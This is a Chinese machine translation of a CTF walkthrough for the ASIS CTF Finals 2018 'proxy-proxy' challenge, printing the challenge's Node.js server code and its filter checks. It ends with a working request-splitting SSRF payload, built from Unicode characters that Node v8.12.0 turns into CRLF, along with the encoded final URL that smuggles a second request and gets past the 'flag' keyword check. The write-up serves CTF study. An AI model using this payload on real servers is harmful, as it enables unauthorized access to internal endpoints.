

# NodeJS SSRF 通过响应分裂-ASIS CTF 总决赛 2018-代理-代理问题演练

> 原文：<https://infosecwriteups.com/nodejs-ssrf-by-response-splitting-asis-ctf-finals-2018-proxy-proxy-question-walkthrough-9a2424923501?source=collection_archive---------2----------------------->

大家好，这个故事是关于 2018 年 ASIS CTF 总决赛参与者的“代理-代理”问题。问题是从这样一页开始的:



以下端点可用:

1.  /proxy/internal _ website/public _ notes
2.  /proxy/internal _ web 站点/public_links
3.  /标志

显然，前两个没有用，最后一个有消息:`forbidden`

随便放一个词和 URL 的结尾，透露(/proxy/internal_website/blah):

```
Undefined endpoint, available endpoints are: ["**public_notes**","**public_links**","**source_code**"]
```

发现的源代码:

```
const express = require('express');
const fs = require('fs');
const path = require('path');
const body_parser = require('body-parser');
const md5 = require('md5');
const http = require('http');
var ip = require("ip");
require('x-date');
var server_ip = ip.address() const server = express();
server.use(body_parser.urlencoded({
    extended: true
}));
server.use(express.static('public')) server.set('views', path.join(__dirname, 'views'));
server.set('view engine', 'jade');
server.listen(5000) server.get('/', function(request, result) {
    result.render('index');
    result.end()
})
function check_endpoint(available_endpoints, endpoint) {
    for (i of available_endpoints) {
        if (endpoint.indexOf(i) == 0) {
            return true;
        }
    }
    return false;
}
fs.readFile('flag.dat', 'utf8', function(err, contents) {
    if (err) {
        throw err;
    }
    flag = contents;
}) server.get('/proxy/internal_website/:page', function(request, result) {
    var available_endpoints = ['public_notes', 'public_links', 'source_code']
    var page = request.params.page result.setHeader('X-Node-js-Version', 'v8.12.0') result.setHeader('X-Express-Version', 'v4.16.3') if (page.toLowerCase().includes('flag')) {
        result.sendStatus(403) result.end()
    } else if (!check_endpoint(available_endpoints, page)) {
        result.render('available_endpoints', {
            endpoints: JSON.stringify(available_endpoints)
        }) result.end()
    } else {
        http.get('[http://127.0.0.1:5000/'](http://127.0.0.1:5000/') + page, function(res) {
            res.setEncoding('utf8');
            if (res.statusCode == 200) {
                res.on('data', function(chunk) {
                    result.render('proxy', {
                        contents: chunk
                    }) result.end()
                });
            } else if (res.statusCode == 404) {
                result.render('proxy', {
                    contents: 'The resource not found.'
                }) result.end()
            } else {
                result.end()
            }
        }).on('error', function(e) {
            console.log("Got error: " + e.message);
        });
    }
}) server.use(function(request, result, next) {
    ip = request.connection.remoteAddress
    if (ip.substr(0, 7) == "::ffff:") {
        ip = ip.substr(7)
    }
    if (ip != '127.0.0.1' && ip != server_ip) {
        result.render('unauthorized') result.end()
    } else {
        next()
    }
}) server.get('/public_notes', function(request, result) {
    result.render('public_notes');
    result.end()
}) server.get('/public_links', function(request, result) {
    result.render('public_links');
    result.end()
}) server.get('/source_code', function(request, result) {
    fs.readFile('server.js', 'utf8', function(err, contents) {
        if (err) {
            throw err;
        }
        result.render('source_code', {
            source: contents
        }) result.end()
    })
}) server.get('/flag/:token', function(request, result) {
    var token = request.params.token
    if (token.length > 10) {
        console.log(ip) fs.writeFile('public/temp/' + md5(ip + token), flag, (err) => {
            if (err) throw err;
            result.end();
        });
    }
}) server.get('/', function(request, result) {
    result.render('index');
    result.end()
}) server.get('*', function(req, result) {
    result.sendStatus(404);
    result.end()
});
```

分析:

1.  唯一可以从外部执行的路径是**/proxy/internal _ website/:page**
2.  只有 3 个端点可以通过代理调用。

```
var available_endpoints = ['public_notes', 'public_links', 'source_code']
```

3.根据代码，对于可用的端点，只检查变量的开头。

```
if (endpoint.indexOf(i) == 0) {
```

4.`page`变量不能有单词`flag`，考虑到代码，它不能被绕过:

```
page.toLowerCase().includes('flag')
```

5.端点 **/flag/:token** 保存包含标志的文件。

6.根据代码，没有一个端点是可直接调用的。

```
if (ip != '127.0.0.1' && ip != server_ip) {
    result.render('unauthorized') result.end()
} else {
    next()
}
```

我必须通过代理向端点`/flag/:token`发送一个 HTTP 请求。然而，它不在可用的端点中，而且`flag`这个词是被禁止的。乍看起来似乎不可能，但是 NodeJS 的版本容易受到 SSRF 的攻击。代码中的提示:

```
result.setHeader('X-Node-js-Version', 'v8.12.0') result.setHeader('X-Express-Version', 'v4.16.3')
```

易受攻击的代码:

```
http.get('[http://127.0.0.1:5000/'](http://127.0.0.1:5000/') + page, function(res) {
```

关于漏洞的文章(仔细阅读，我省略了对漏洞的描述):

```
[https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
```

因此，以下有效负载导致发送两个单独的 HTTP 请求，第一个发送到`/public_notes`端点，第二个发送到`/flag/irgeeksssrf`，这导致将`flag`保存在`/temp/`文件夹中的名称`md5(127.0.0.1irgeesssrf`内:

```
public_notes\u{0120}HTTP/1.1\u{010D}\u{010A}Host:\u{0120}127.0.0.1\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/\u{0166}\u{016c}\u{0161}\u{0167}/irgeeksirgeeks
```

最终 URL:

```
/proxy/internal_website/public_notes%C4%A0HTTP%2F1.1%C4%8D%C4%8AHost%3A%C4%A0127.0.0.1%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0%2F%C5%A6%C5%AC%C5%A1%C5%A7%2Firgeeksirgeeks
```

**注意:**端点是`public_notes`，正如分析中提到的，我们可以扩展端点，因为只检查了端点的开始。

**注意:**以下 Unicode 被翻译成`flag`并绕过条件`.includes('flag')`:

```
\u{0166}\u{016c}\u{0161}\u{0167}
666c6167 = flag
```

旗帜是 ASIS。